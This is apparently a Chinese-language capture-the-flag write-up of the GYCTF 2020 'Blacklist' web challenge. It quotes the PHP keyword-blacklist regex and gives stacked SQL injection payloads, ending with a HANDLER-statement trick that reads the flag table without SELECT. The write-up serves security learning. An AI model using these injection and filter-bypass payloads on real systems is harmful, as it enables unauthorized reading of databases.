



# GYCTF 2020

## Web

### Blacklist

随便输入 `1` 进去回显得到数组，输入 `1' select` 回显得到一条 PHP 语句。

<figure><figcaption></figcaption></figure>

```php
preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

可以发现过滤了许多 SQL 关键字，传入 `1';show databases;` 可以获取到数据库名为 `supersqli`

<figure><figcaption></figcaption></figure>

传入 `1';show tables;` 可以看到 flag 被藏到了 `FlagHere` 表中。

<figure><figcaption></figcaption></figure>

但是要怎么获取到 flag 呢？select 已经被吃掉了，经过百度发现可以通过 HANDLER 语句获取。

> HANDLER table\_name OPEN：打开一个表的句柄。
>
> HANDLER table\_name READ index：访问表的索引。
>
> HANDLER table\_name CLOSE：关闭已经打开的句柄。
>
> HANDLER tbl\_name READ { FIRST | NEXT } \[ WHERE where\_condition ] \[LIMIT ... ]
>
> * READ FIRST: 获取句柄的第一行
> * READ NEXT: 依次获取其他行

通过传入 `1';handler FlagHere open;handler FlagHere read next;handler FlagHere close;` 就可以获得 flag 力
